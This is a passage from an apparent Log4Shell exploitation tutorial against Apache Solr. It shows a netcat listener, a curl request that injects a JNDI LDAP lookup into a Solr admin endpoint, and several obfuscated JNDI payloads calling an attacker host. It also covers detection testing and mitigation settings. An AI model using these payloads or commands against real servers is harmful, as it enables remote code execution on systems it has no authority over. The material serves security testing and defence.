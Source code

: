 and start the listener

```
nc -lnvp 4545
```

Step seven: sending the exploit

```
curl 'http://target-ip:8983/solr/admin/cores?foo=$\{jndi:ldap://your-ip:1389/Log4j\}'
```

**Encoding the payload**

You may need to test your firewall or IDS for detection of the above payload. You can also use various forms of the above payload for further testing your security devices in catching and spotting the exploit.

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

**Mitigation**

Set either of the below properties to \[true]

```
log4j2.formatMsgNoLookups
LOG4J_FORMAT_MSG_NO_LOOKUPS
```

Or simply delete \[JndiLookup.class] for any version.

**Apache solr**

Navigate to the below file

```
/etc/default/solr.in.sh
```

add the below syntax to the end of the file

```
SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"
```

and restart
